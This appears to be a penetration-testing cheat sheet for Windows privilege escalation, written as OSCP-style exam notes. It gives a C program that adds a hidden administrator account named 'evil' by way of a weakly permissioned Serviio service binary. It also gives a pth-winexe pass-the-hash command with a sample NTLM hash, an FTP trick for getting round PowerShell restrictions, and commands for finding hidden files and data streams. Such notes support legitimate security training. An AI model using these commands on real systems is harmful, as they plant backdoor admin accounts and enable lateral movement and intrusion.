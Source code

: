 ```
icacls "C:\Program Files\Serviio\bin\ServiioService.exe"

In older Windows Systems you can try
cacls "C:\Program Files\Serviio\bin\ServiioService.exe"
```

* C program to create admin user - compile with gcc to create exeutable

```
#include <stdlib.h>
int main ()
{
int i;
i = system ( "net user evil Ev!lpass /add") ;
i = system ("net localgroup administrators evil /add");
return 0;
}
```

* Pass-The-Hash attacks(requires SMB + NTLM)

Existing tools - PsExec from Metasploit, Passing-the-hash toolkit, and Impacket

```
// https://github.com/byt3bl33d3r/pth-toolkit
kali@kali:~$ pth-winexe -U offsec%aad3b435b51484eeaad3b435b51484ee:2892d26cdf84d7a78e2eb3b9f05c425e //10.11.0.22 cmd
```

* Bypass Powershell restriction

```
echo !powershell.exe > ftpcommands.txt && ftp -s:ftpcommands.txt
// https://www.reddit.com/r/oscp/comments/hbjj6p/ftp_trick/
```

* Check for alternate data streams

```
dir /r | find ":$DATA"
```

* Check for all hidden files and put them in file hidden.txt

```
dir /S /A:H > hidden.txt
```

* List all hidden files in directory

```
dir /a
```

* Windows PrivEsc Guide

```
// https://noobsec.net/
// https://book.hacktricks.xyz/windows/windows-local-privilege-escalation
```
